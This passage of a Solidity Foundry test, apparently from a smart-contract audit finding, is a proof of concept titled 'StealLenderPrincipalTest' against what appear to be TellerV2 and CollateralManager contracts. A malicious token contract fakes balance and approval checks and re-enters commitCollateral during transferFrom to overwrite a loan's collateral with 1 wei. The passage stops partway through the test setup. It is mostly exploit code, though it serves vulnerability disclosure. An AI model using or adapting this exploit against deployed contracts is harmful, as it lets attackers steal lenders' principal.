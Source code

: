 ```solidity
    uint256 bidId;

    constructor(CollateralManager cm, TestERC20Token ct, uint256 _bidId) {
        collateralManager = CollateralManager(cm);  
        collateralToken = TestERC20Token(ct);
        bidId = _bidId;
    }

    function balanceOf(address ) public view returns(uint256) { return 1; }

    function approve(address , uint ) public view returns(bool) { return true; }

    function transferFrom(address , address , uint256 ) public returns(bool) {
        // reentry and change collateral to 1 wei
        Collateral memory collateral = Collateral({
            _collateralType: CollateralType.ERC20,
            _amount: 1, // 1 wei
            _tokenId: 0,
            _collateralAddress: address(collateralToken)
        });
        // second exploit on commitCollateral; overwrite existing collateral
        collateralManager.commitCollateral(bidId, collateral);
        return true;
    }
}

contract StealLenderPrincipalTest is Test {

    MarketRegistryMock marketRegistry = new MarketRegistryMock();

    TellerV2 tellerV2;
    LenderCommitmentForwarder lenderCommitmentForwarder;
    CollateralManager collateralManager;
    
    TestERC20Token principalToken;
    TestERC20Token collateralToken;

    address attacker = address(0x1111);
    address lender = address(0x2222);

    function setUp() public {
        tellerV2 = new TellerV2(address(0));

        lenderCommitmentForwarder = new LenderCommitmentForwarder(address(tellerV2),address(marketRegistry));
        
        collateralManager = new CollateralManager();
        collateralManager.initialize(address(new UpgradeableBeacon(address(new CollateralEscrowV1()))), address(tellerV2));

        address rm = address(new ReputationManagerMock());
        address lm = address(new LenderManagerMock());
        tellerV2.initialize(0, address(marketRegistry), rm, address(lenderCommitmentForwarder), address(collateralManager), lm);

        marketRegistry.setMarketOwner(address(this));
        marketRegistry.setMarketFeeRecipient(address(this));

        tellerV2.setTrustedMarketForwarder(0,address(lenderCommitmentForwarder));

        principalToken = new TestERC20Token("Principal Token", "PRIN", 1e18, 18);
        principalToken.transfer(lender,1e18);

```